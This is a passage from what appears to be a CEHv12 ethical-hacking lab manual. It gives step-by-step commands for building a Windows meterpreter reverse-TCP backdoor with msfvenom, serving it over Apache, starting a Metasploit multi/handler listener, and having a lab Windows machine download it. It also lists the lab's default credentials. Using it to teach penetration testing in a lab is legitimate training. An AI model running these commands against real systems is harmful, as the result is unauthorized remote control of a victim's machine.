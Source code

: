 1. Click **CEHv12 Parrot Security** to switch to the **Parrot Security** machine.
2. In the login page, the **attacker** username will be selected by default. Enter password as **toor** in the **Password** field and press **Enter**
    to log in to the machine.
3. In **Parrot Security** machine launch a **Terminal** window.
4. A **Parrot Terminal** window appears. In the terminal window, type **sudo su** and press **Enter** to run the programs as a root user.
5. In the **[sudo] password for attacker** field, type **toor** as a password and press **Enter**.

```
Note: The password that you type will not be visible.
```
6. Now, type **cd** and press **Enter** to jump to the root directory.
7. Type the command **msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe >**
    **/home/attacker/Desktop/backdoor.exe** and press **Enter**.

### 


8. In the previous lab, we already created a directory or shared folder (share) at the location (/var/www/html) with the required access
    permission. So, we will use the same directory or shared folder (share) to share backdoor.exe with the victim machine.

```
Note: To create a new directory to share the backdoor.exe file with the target machine and provide the permissions, use the below
commands:
```
```
Type mkdir /var/www/html/share and press Enter to create a shared folder
Type chmod -R 755 /var/www/html/share and press Enter
Type chown -R www-data:www-data /var/www/html/share and press Enter
```
9. Copy the payload into the shared folder by typing **cp /home/attacker/Desktop/backdoor.exe /var/www/html/share/** in the
    terminal window and press **Enter**.

### 


10. Start the Apache server by typing **service apache2 start** and press **Enter**.
11. Type **msfconsole** in the terminal window and press **Enter** to launch Metasploit Framework.

### 


12. In Metasploit type **use exploit/multi/handler** and press **Enter**.
13. Now type **set payload windows/meterpreter/reverse_tcp** and press **Enter**.

### 


14. Type **set lhost 10.10.1.13** and press **Enter** to set lhost.
15. Type **set lport 444** and press **Enter** to set lport.
16. Now type **run** in the Metasploit console and press **Enter**.
17. Click **CEHv12 Windows 11** to switch to the **Windows 11** machine.
18. Open any web browser (here, Mozilla Firefox). In the address bar place your mouse cursor, type **[http://10.10.1.13/share](http://10.10.1.13/share)** and press
    **Enter**. As soon as you press enter, it will display the shared folder contents, as shown in the screenshot.
19. Click on **backdoor.exe** to download the file.
